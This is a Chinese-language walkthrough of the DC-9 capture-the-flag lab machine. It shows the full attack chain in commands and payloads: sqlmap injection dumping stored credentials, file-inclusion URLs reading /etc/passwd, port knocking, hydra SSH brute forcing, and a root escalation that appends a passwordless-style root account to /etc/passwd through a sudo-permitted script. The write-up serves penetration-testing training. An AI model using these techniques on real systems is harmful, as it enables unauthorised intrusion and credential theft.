 ```yaml
---
layout: post
title: DC-9
subtitle: DC-9
date: 2025-07-17 11:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 信息搜集

扫描IP发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/RMLHfa.png)

扫描端口，发现80端口开放，22端口 `filtered` 说明存在ssh服务，但被拒绝访问

```shell
nmap -T4 -A -p- 192.168.163.135
```

![image.png](https://img.ghostliner.top/EEZYUr.png)

扫描目录

```shell
dirsearch -u http://192.168.163.135/ -e* -i 200
```

![image.png](https://img.ghostliner.top/pizDdy.png)

`/search.php`发现搜索框，使用sqlmap测试

### 数据库爆破

使用bp抓取提交搜索的数据包，保存到`a.txt`文件中

```http
POST /results.php HTTP/1.1
Host: 192.168.163.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.163.135
Connection: close
Referer: http://192.168.163.135/search.php
Cookie: PHPSESSID=rn9as0edebkia6tvjbv2amr05p
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=12
```

sqlmap 测试 `search`字段是否存在注入漏洞

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search --dbs
```

![image.png](https://img.ghostliner.top/7YhjJ5.png)

发现存在注入漏洞，且获取到两个数据库：`Staff`、`users`

#### 爆破 Staff 数据库

获取表名
![image.png](https://img.ghostliner.top/UzD1Aj.png)

获取列名
![image.png](https://img.ghostliner.top/EuucQt.png)

获取用户名、密码
![image.png](https://img.ghostliner.top/GKW85t.png)

得到密码：`transorbital1`

#### 爆破 users 数据库

获取 `users` 数据库数据

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search -D users -T UserDetails -C username,password --dump
```

![image.png](https://img.ghostliner.top/eQ4HRT.png)

相关数据保存到了 `C:\Users\vmuser\AppData\Local\sqlmap\output\192.168.163.135\dump\users\UserDetails.csv` 文件中，可将其中内容复制到kali中，之后用来SSH爆破
![image.png](https://img.ghostliner.top/t6HFtP.png)

### 网站登录

通过用户：admin 密码：transorbital1 登录成功

发现 `File does not exist` 字段，猜测有文件包含漏洞

![image.png](https://img.ghostliner.top/ebtKO6.png)

测试url: http://192.168.163.135/manage.php?file=../../../../etc/passwd ，成功获取到数据

由于ssh服务为 `filtered` 猜测是否存在敲门

构造url: http://192.168.163.135/welcome.php?file=../../../../../../etc/knockd.conf ，访问成功

![image.png](https://img.ghostliner.top/IwnyAA.png)
### SSH爆破

根据文件中的端口，依次访问

```shell
nc 192.168.163.135 7469
nc 192.168.163.135 8475
nc 192.168.163.135 9842
```

再次扫描端口，发现已开放

![image.png](https://img.ghostliner.top/dufBKT.png)

将爆破 `users` 数据库得到的`.csv`文件内容复制到kali，保存为user.txt，使用vim将其中的 `,` 替换为 `:`，构造为符合hydra的格式

```vim
:%s/,/:/g
```

hydra爆破SSH

```shell
hydra -C user.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/iG2yVd.png)

| 用户名       | 密码          |
| --------- | ----------- |
| chandlerb | UrAG0D!     |
| janitor   | Ilovepeepee |
| joeyt     | Passw0rd    |

janitor登陆成功，发现以下文件

![image.png](https://img.ghostliner.top/YjkmXE.png)

查看内容，疑似密码

![image.png](https://img.ghostliner.top/3WRnwe.png)

保存到文件中，并将之前的user.txt内容删去密码

```vim
:%s/:.*//g
```

爆破用户名密码
```shell
hydra -L user.txt -P pass.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/7vJOMF.png)

| 用户名   | 密码          |
| ----- | ----------- |
| fredf | B4-Tru3-001 |
| joeyt | Passw0rd    |
获取到新的用户名，发现为系统管理员

![image.png](https://img.ghostliner.top/o9vgFE.png)

### root提权

登录成功，尝试 `sudo -l` 提权

![image.png](https://img.ghostliner.top/GQZeqJ.png)

发现 `/opt/devstuff/dist/test/test` 可用于提权，查看文件属性为二进制文件

![image.png](https://img.ghostliner.top/NDQyxu.png)

搜索上级目录，发现源代码文件 `test.py`

![image.png](https://img.ghostliner.top/AhWaag.png)

查看脚本内容：输入两个参数，且都为文件路径，之后读取第一个文件内容，将其追加到第二个文件中

```python
#!/usr/bin/python
import sys
if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)
else :
    f = open(sys.argv[1], "r")
    output = (f.read())
    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

利用思路：向 `/etc/passwd` 中追加root权限用户，之后切换到该用户，实现root提权

使用无密码用户提权失败，因此生成加密密码，构造有密码用户

```shell
openssl passwd -1 123
# $1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0
```

构造 `/etc/passwd` 格式，保存到临时文件，执行test脚本将其追加到 `/etc/passwd` 中

```shell
echo 'rroott:$1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0:0:0::/root:/bin/bash' >/tmp/tf
sudo ./test /tmp/tf /etc/passwd
su rroott
```

提权成功

![image.png](https://img.ghostliner.top/Il8qMj.png)

获取flag文件

![image.png](https://img.ghostliner.top/I1138g.png)
